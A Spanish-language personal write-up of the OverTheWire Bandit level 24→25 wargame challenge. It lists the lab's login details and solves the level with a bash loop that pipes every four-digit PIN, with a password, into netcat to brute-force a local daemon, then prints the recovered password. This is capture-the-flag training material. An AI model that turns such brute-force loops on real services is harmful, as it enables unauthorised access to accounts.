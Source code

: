 # Bandit Level 24 → Level 25

## Objetivo
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

## Datos de acceso
usuario: **bandit24**
Servidor **bandit.labs.overthewire.org**
Puerto de acceso **2220**
Contraseña: ==**VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar**==
Contraseña obtenida en el [[Nivel 23 - 24]]

## Solución
Se debe crear un codigo bash que haga un intento de fuerza bruta para encontrar la constraseña para el listener del pincode
``` bash
bandit24@bandit:~$ for i in {0000..0005}; do echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i; done                                                                           VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 0000                                              VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 0001                                              VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 0002                                              VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 0003                                              VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 0004                                              VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 0005                                              bandit24@bandit:~$ 
```
Un ejemplo del codigo en bash a utilizar.

``` bash
bandit24@bandit:~$ for i in {0000..9999}; do echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i; done | nc localhost 30002 | grep -v Wrong!                                     I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.                Correct!                                                                           The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d                                                                                                     Exiting. 
```
Contraseña ==**p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d**==

## Notas adicionales
grep -v palabra; filtra la palabra indicada
## Referencias
